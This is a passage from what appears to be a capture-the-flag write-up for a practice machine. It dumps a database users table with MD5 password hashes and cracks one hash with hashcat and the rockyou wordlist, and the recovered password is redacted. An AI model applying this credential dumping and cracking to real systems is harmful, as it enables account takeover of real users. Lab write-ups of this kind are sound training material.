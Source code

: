 ```sql
(1 row)

mentorquotes_db=# Select * From users;
 id |         email          |  username   |             password
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

```

I already knew james' password. I used Hashcat to crack the password for svc.

```bash
$ cat hash.txt
53f22d0dfa10dce7e29cd31f4f953fd8

$ hashcat -a0 -m0 hash.txt /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2868/5801 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

53f22d0dfa10dce7e29cd31f4f953fd8:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 53f22d0dfa10dce7e29cd31f4f953fd8
```